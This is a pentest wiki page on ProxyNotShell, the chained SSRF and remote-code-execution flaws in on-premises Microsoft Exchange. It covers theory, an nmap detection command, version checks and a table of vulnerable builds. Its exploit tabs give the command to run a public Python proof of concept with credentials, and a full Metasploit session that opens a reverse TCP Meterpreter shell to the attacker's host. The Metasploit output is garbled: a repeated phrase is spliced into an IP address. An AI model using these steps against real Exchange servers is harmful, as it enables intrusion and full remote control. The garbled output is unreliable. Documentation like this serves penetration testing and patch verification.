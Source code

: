 ```yaml
---
description: Chained CVE-2022-41040, CVE-2022-41082
---
```


# ProxyNotShell

## Theory

ProxyNotShell is identified with the following CVEs: CVE-2022–41040 and CVE-2022–41082. The vulnerabilities affect Microsoft Exchange on premises with an **Outlook Web App.**

**CVE-2022-41040** : SSRF\
This vulnerability allow attackers to send an arbitrary request with a controlled URI and controlled data to an arbitrary backend service with LocalSystem privilege. (Request is very similar to the [ProxyShell](proxyshell.md) one)

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41040 - SSRF</strong><br></p></figcaption></figure>

**CVE-2022-41082** : RCE\
By abusing CVE-2022-41040 **authenticated** users may exploit CVE-2022-41082 to run arbitrary commands in vulnerable Exchange Servers.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41082</strong> - RCE Request</p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [proxynotshell\_checker.nse](https://github.com/CronUp/Vulnerabilidades/blob/main/proxynotshell\_checker.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="proxynotshell_checker.nse" $IP

443/tcp open  https
    |_proxynotshell_checker: Potentially vulnerable to ProxyNotShell (mitigation not applied).
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.2.1118.20   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable :

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2019 CU12 | < 15.2.1118.20            |
| Exchange 2019 CU11 | < 15.2.986.36             |
| Exchange 2016 CU23 | < 15.1.2507.16            |
| Exchange 2016 CU22 | < 15.1.2375.33            |
| Exchange 2013 CU23 | < 15.0.1497.32            |

{% hint style="info" %}
All versions before November 8, 2022 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use [testanull's python script](https://github.com/testanull/ProxyNotShell-PoC) to exploit this vulnerability

```bash
# Install dependecies
pip install requests_ntlm2 requests

#Exploit
python poc_aug3.py <host> <username> <password> <command>
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyNotShell

{% hint style="info" %}
This exploit only support Exchange Server 2019
{% endhint %}

```bash
msf6 > use exploit/windows/http/exchange_proxynotshell_rce

msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 1We can use the We can use the We can use theWe can use the92.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.rezilion.com/blog/proxyshell-or-proxynotshell-lets-set-the-record-straight/" %}

{% embed url="https://www.picussecurity.com/resource/blog/proxynotshellcve-2022-41040-and-cve-2022-41082-exploits-explained" %}
